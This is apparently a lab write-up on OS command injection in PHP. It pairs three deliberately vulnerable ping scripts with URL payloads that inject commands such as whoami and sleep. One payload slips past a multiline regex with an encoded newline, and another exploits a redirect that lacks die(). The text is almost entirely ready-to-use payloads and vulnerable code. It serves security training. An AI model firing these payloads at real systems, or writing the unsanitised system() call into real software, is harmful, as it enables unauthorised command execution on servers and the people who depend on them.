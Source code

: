 #### Example 1

Payloads:
```
$host/example1.php?ip=127.0.0.2%26%26echo;echo;whoami
$host/example1.php?ip=127.0.0.2;echo;echo;whoami
$host/example1.php?ip=127||whoami
$host/example1.php?ip=127;whoami
$host/example1.php?ip=127.0.0.2;sleep+5
```

Code:
```php
system("ping -c 2 ".$_GET['ip']);
```


#### Example 2

Payload (hex encoded line feed LF `\n` + `/m` regex multi line):
```
$host/example2.php?ip=127.0.0.1%0aecho+1
```


Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) { die("Invalid IP address"); }
system("ping -c 2 ".$_GET['ip']);
```


#### Example 3

Payload:
```
$host/example3.php?ip=127%7C%7Cwhoami
```

Code:
```php
if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
    // redirect to other page
    // die() is missing
}
// but if we don't follow the redirect system function will be called
system("ping -c 2 ".$_GET['ip']);
```
